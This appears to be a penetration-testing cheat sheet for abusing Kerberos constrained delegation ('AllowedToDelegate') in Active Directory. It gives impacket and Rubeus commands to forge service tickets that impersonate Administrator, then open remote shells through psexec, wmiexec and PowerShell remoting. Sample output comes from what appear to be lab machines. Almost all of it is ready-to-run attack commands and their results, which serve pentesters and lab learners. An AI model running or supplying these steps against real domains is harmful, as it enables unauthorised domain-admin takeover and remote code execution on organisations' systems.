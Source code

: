 ```yaml
---
title: "AllowedToDelegate"
date: 2024-7-23
tags: ["Pass-The-Ticket", "Silver Ticket", "Ticket Granting Ticket", "Allowedtodelegate", "Active Directory", "Windows"]
---
```


### Privesc #1: Forge a Ticket

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Pre-Check

```console
# With password
impacket-findDelegation '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC_IP>
```

```console
# With hash
impacket-findDelegation '<DOMAIN>/<USER>' -dc-ip <DC_IP> -hashes :<HASH> -no-pass
```

#### 2. Get a Service Ticket

```console
sudo ntpdate -s <DC> && impacket-getST -dc-ip <DC_IP> -spn '<SERVICE>/<TARGET_DOMAIN>' -hashes :<HASH> -impersonate '<IMPERSONATE_USER>' '<DOMAIN>/<USER>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.intelligence.htb && impacket-getST -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :80d4ea8c2d5ccfd1ebac5bd732ece5e4 -impersonate Administrator 'intelligence.htb/svc_int'
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
```

#### 3. Convert Ticket \[Optional\]

```console
python3 rubeustoccache.py '<BASE64_TICKET>' '<IMPERSONATE_USER>.kirbi' '<IMPERSONATE_USER>.ccache'
```

```console {class="sample-code"}
python3 ~/Tools/RubeusToCcache/rubeustoccache.py 'doIG9DCCBv ---[SNIP]--- 9yZS5jb20=' 'administrator.kirbi' 'administrator.ccache'
╦═╗┬ ┬┌┐ ┌─┐┬ ┬┌─┐  ┌┬┐┌─┐  ╔═╗┌─┐┌─┐┌─┐┬ ┬┌─┐
╠╦╝│ │├┴┐├┤ │ │└─┐   │ │ │  ║  │  ├─┤│  ├─┤├┤ 
╩╚═└─┘└─┘└─┘└─┘└─┘   ┴ └─┘  ╚═╝└─┘┴ ┴└─┘┴ ┴└─┘
              By Solomon Sklash
          github.com/SolomonSklash
   Inspired by Zer1t0's ticket_converter.py

[*] Writing decoded .kirbi file to administrator.kirbi
[*] Writing converted .ccache file to administrator.ccache
[*] All done! Don't forget to set your environment variable: export KRB5CCNAME=administrator.ccache
```

#### 4. Remote

```console
export KRB5CCNAME='<CCACHE_FILE>'
```

```console {class="sample-code"}
$ export KRB5CCNAME=Administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
```

```console
# psexec
sudo ntpdate -s <DC> && impacket-psexec '<DOMAIN>/<IMPERSONATE_USER>@<TARGET_DOMAIN>' -k -no-pass
```

```console {class="sample-code"}
$ impacket-psexec client.example.com/administrator@dc01.client.example.com -k -no-pass
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Requesting shares on dc01.client.example.com.....
[*] Found writable share ADMIN$
[*] Uploading file MOjmtmkC.exe
[*] Opening SVCManager on dc01.client.example.com.....
[*] Creating service NTdz on dc01.client.example.com.....
[*] Starting service NTdz.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

```console
# wmiexec
sudo ntpdate -s <DC> && wmiexec.py '<DOMAIN>/<IMPERSONATE_USER>@<TARGET_DOMAIN>' -k -no-pass
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.intelligence.htb && wmiexec.py -k -no-pass administrator@dc.intelligence.htb
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

<small>*Note: impacket-wmiexec may not work*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Pre-Check

```console
# Import powerview
. .\PowerView.ps1
```

```console
# Check msds-allowedtodelegateto
Get-NetUser -TrustedToAuth
```

{{< tab set1-2 tab1 active >}}Hash{{< /tab >}}{{< tab set1-2 tab2 >}}Kerberos{{< /tab >}}
{{< tabcontent set1-2 tab1 >}}

#### 2. Calculate Hash

```console
.\rubeus.exe hash /password:'<PASSWORD>' /user:'<USER>' /domain:<DOMAIN>
```

#### 3. Get a Service Ticket

```console
.\rubeus.exe s4u /user:'<USER>' /aes256:<HASH> /impersonateuser:'<IMPERSONATE_USER>' /domain:<DOMAIN> /msdsspn:'<SERVICE>/<TARGET_DOMAIN>' /altservice:<ALT_SERVICE> /nowrap /ptt
```

```console {class="sample-code"}
.\rubeus.exe s4u /user:'MS01$' /rc4:7ddf32e17a6ac5ce04a8ecbf782ca509 /impersonateuser:administrator /msdsspn:"cifs/dc01.client.example.com" /nowrap /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 

[*] Action: S4U

[*] Using rc4_hmac hash: 7ddf32e17a6ac5ce04a8ecbf782ca509
[*] Building AS-REQ (w/ preauth) for: 'CLIENT.EXAMPLE.COM\MS01$'
[*] Using domain controller: 172.16.1.2:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFljCCBZKg ---[SNIP]--- hPUkUuQ09N

[*] Action: S4U

[*] Building S4U2self request for: 'MS01$@CLIENT.EXAMPLE.COM'
[*] Using domain controller: DC04.CLIENT.EXAMPLE.COM (172.16.1.2)
[*] Sending S4U2self request to 172.16.1.2:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'MS01$@CLIENT.EXAMPLE.COM'
[*] base64(ticket.kirbi):

      doIGGjCCBh ---[SNIP]--- cbBU1TMDIk

[*] Impersonating user 'administrator' to target SPN 'cifs/dc01.client.example.com'
[*] Building S4U2proxy request for service: 'cifs/dc01.client.example.com'
[*] Using domain controller: DC04.CLIENT.EXAMPLE.COM (172.16.1.2)
[*] Sending S4U2proxy request to domain controller 172.16.1.2:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc01.client.example.com':

      doIG9DCCBv ---[SNIP]--- 9yZS5jb20=
[+] Ticket successfully imported!
```

```console
# Or Create a sacrificial process
.\rubeus.exe s4u /user:'<USER>' /aes256:<HASH> /impersonateuser:'<IMPERSONATE_USER>' /domain:<DOMAIN> /msdsspn:'<SERVICE>/<TARGET_DOMAIN>' /altservice:<ALT_SERVICE> /nowrap /ptt /createnetonly /program:C:\Windows\System32\cmd.exe
```

{{< /tabcontent >}}
{{< tabcontent set1-2 tab2 >}}

#### 2. Request a TGT

```console
.\rubeus.exe tgtdeleg /nowrap /ptt
```

#### 3. Get a Service Ticket

```console
.\rubeus.exe s4u /user:'<USER>' /ticket:'<BASE64_TICKET>' /impersonateuser:'<IMPERSONATE_USER>' /domain:<DOMAIN> /msdsspn:'<SERVICE>/<TARGET_DOMAIN>' /altservice:<ALT_SERVICE> /nowrap /ptt
```

```console
# Or Create a sacrificial process
.\rubeus.exe s4u /user:'<USER>' /ticket:'<BASE64_TICKET>' /impersonateuser:'<IMPERSONATE_USER>' /domain:<DOMAIN> /msdsspn:'<SERVICE>/<TARGET_DOMAIN>' /altservice:<ALT_SERVICE> /nowrap /ptt /createnetonly /program:C:\Windows\System32\cmd.exe
```

{{< /tabcontent >}}

#### 4. Remote

```console
# Check
klist
```

```console
# Create session
$session = new-pssession -computername <COMPUTER_NAME>
```

```console
# Execute cmd
invoke-command $session { <CMD> }
```

{{< /tabcontent >}}

